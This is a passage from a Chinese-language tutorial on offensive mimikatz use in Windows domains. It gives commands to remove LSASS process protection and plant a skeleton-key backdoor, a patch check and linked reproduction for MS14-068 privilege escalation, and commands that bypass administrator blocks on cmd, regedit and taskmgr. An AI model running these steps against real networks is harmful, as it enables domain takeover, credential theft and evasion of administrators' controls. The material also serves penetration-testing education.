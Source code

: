 ```
#适用系统
windows 8.1
windows server 2012 及以上


```

当然 mimikatz 依旧可以绕过，该功能需要导入 mimidrv.sys 文件，导入命令如下:

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton


```

#### 5.4 MS14-068

当我们拿到了一个普通域成员的账号后，想继续对该域进行渗透，拿到域控服务器权限。如果域控服务器存在 MS14\_068 漏洞，并且未打补丁，那么我们就可以利用 MS14\_068 快速获得域控服务器权限。

MS14-068 编号 CVE-2014-6324，补丁为 3011780 ，如果自检可在域控制器上使用命令检测。

```
systeminfo |find "3011780"
#为空说明该服务器存在MS14-068漏洞


```

操作链接：MS14-068 复现 (CVE-2014-6324)：[https://www.cnblogs.com/-mo-/p/11890539.html](https://www.cnblogs.com/-mo-/p/11890539.html)

### 0x06 其他

#### 6.1 使用 mimikatz 导出 chrome 中的密码

详情请见：[链接](https://mp.weixin.qq.com/s?__biz=MzIzOTg0NjYzNg==&mid=2247483949&idx=1&sn=db4853c88e4bf0a550c095d9017a363c&chksm=e92297aede551eb815a604ba944c4666b260c5bfe044e1b3a60946b586fd5679e29db0adf18d&mpshare=1&scene=23&srcid=&sharer_sharetime=1582350092849&sharer_shareid=d32981e13d51bf06188894426d2a54e5#rd)

#### 6.2 隐藏功能

管理员常常会禁用一些重要程序的运行，比如 cmd、regedit、taskmgr，此时不方便渗透的进一步进行，这里除了去改回原来的配置，还可以借助 mimikatz 的一些功能：

```
privilege::debug
misc::cmd
misc::regedit
misc::taskmgr


```
